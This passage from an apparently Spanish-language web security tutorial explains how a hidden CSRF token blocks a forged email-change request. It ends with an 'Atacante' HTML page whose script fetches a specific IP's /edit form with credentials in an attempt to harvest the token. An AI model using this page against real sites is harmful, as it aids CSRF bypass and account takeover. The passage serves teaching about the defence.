       

      **nota:** como puede observar en la consola de google chrome puede observar un input hidden que contendra el token

       

      cuando se intente cambiar el correo y pase el tiempo establecido mostrara un error 

       

      si el atacante intenta cambiar el correo elctronico como el segundo ejemplo de html no dejara cambiar el email

       

      porque sucede esto, esto sucede porque el formulario no posee el token CSRF para realizar la peticion

      bueno entonces una posible ataque es tomar el codigo del formualrio y obtener el token mediante la observacion

      por ello utilizaremos el siguiente codigo

      ```html
      <!DOCTYPE html>
      <html lang="en">

      <head>
          <meta charset="UTF-8">
          <meta http-equiv="X-UA-Compatible" content="IE=edge">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>Atacante</title>
      </head>

      <body>
      </body>
      <script>
          fetch('http://165.227.167.80:3002/edit', { credentials: 'include' })
              .then(res => res.text())
              .then(html => console.log(html))
              .catch(err => console.log(err));
      </script>

      </html>
      ```